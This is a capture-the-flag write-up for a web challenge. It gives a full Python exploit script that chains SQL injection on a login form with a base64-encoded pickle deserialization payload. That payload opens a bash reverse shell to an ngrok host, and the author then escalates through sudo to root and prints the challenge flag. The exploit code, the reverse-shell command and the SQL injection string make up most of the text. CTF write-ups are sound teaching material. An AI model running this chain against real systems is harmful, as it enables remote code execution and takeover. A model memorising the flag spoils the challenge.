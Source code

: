 Challenge:

![Challenge](images/1.challenge.PNG)

To do:  add code analysis





I set up my ngrok listener and netcat on my machine.

![ngrok](images/ngrok.PNG)  

![base64](images/base64payload.PNG)

I then added my base64 encoded bash payload into the script and triggered the payload.

![netcat](images/revshell.PNG)  

Script to trigger the payload:

```python
import os
import requests
import pickle
import base64


#bash -i >& /dev/tcp/0.tcp.ngrok.io/10302 0>&1

#Serialize the pickle payload
serializedPickle = pickle.dumps("os.system, ('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5uZ3Jvay5pby8xMDMwMiAwPiYxCg== | base64 -d | bash',)")
#Convert to base64
picklepayload = base64.b64encode(serializedPickle)

#Decode the payload to stage for the SQL injection
payload = picklepayload.decode()

#Set up our base URL and headers
baseURL = 'http://challenge.ctf.games:32234'
url = baseURL + '/login'
header = {'Content-Type':'application/x-www-form-urlencoded'}

#Construct the base64 attack
data = '''username=jimshoes&password=\\';insert/**/into/**/activesessions/**/values(\\'revshell\\',\\'jim\\',\\'987654321\\');insert/**/into/**/files/**/values(\\'jim\\',\\''' + payload + '''\\',null); -- "; '''

#Send the request
requests.post(url, data=data, headers=header)

#Trigger the payload
url = baseURL + '/download/jim/revshell'
requests.get(url)
```

The challenge states to escalate privileges to find the flag, so I ran ```sudo -l``` to see what permissions I had.

![sudo](images/sudo.PNG)

The account has full sudo privileges, so I elevated to root and claimed the flag in the /root directory.

![flag](images/flag.PNG)


Flag: ```flag{ac53cd7aa8a2d1b2340a6eb4a356709e}```